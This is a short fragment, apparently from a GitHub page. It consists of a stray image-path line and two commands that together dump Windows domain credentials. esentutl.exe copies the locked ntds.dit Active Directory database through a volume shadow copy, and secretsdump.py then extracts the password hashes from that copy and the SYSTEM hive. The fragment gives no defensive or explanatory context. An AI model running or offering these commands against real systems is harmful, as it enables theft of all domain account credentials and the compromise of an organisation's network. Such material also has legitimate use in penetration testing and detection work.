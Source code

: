 	>esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
	>secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL